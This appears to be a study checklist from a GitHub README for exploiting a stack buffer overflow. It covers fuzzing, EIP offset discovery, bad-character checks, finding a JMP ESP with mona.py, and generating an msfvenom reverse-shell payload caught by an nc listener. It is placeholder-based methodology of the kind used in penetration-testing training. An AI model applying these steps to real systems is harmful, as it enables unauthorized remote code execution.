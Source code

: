 # Buffer Oveflow

## Identify Overflow Length

> 1. Attach debugger
> 2. Run fuzzer script
> 3. Run confirm-overflow script

## Control EIP

> 1. Create pattern: `msf-pattern_create -l <length>`
> 2. Run locate-offset script
> 3. Locate offset: `msf-pattern_offset -l <length> <eip-value>`
> 4. Run verify-offset script

## Locate Space for Shellcode

> 1. Run increase-overflow script to attempt increasing overflow size
> 2. If successful, run bad-char script

## Find Return Address

> 1. Locate module w/ least memory protection: mona.py `!mona modules`
> 2. JMP ESP hex: `msf-nasm_shell > jmp esp` (FFE4)
> 3. Locate JMP ESP w/ no bad chars: mona.py `find -s "\xff\xe4" -m "<dll module>"`
> 4. Run verify-jmp-esp script

## Getting Shell

> 1. Generate payload: `msfvenom -p <payload> LHOST=<ip> LPORT=<port> EXITFUNC=thread -f <format> -e x86/shikata_ga_nai -b "<bad-chars> (e.g. \x00\x0a\x0d\x25\x26\x2b\x3d)"`
> 2. Run listener: `sudo nc -nvlp <port>`
> 3. Run exploit script
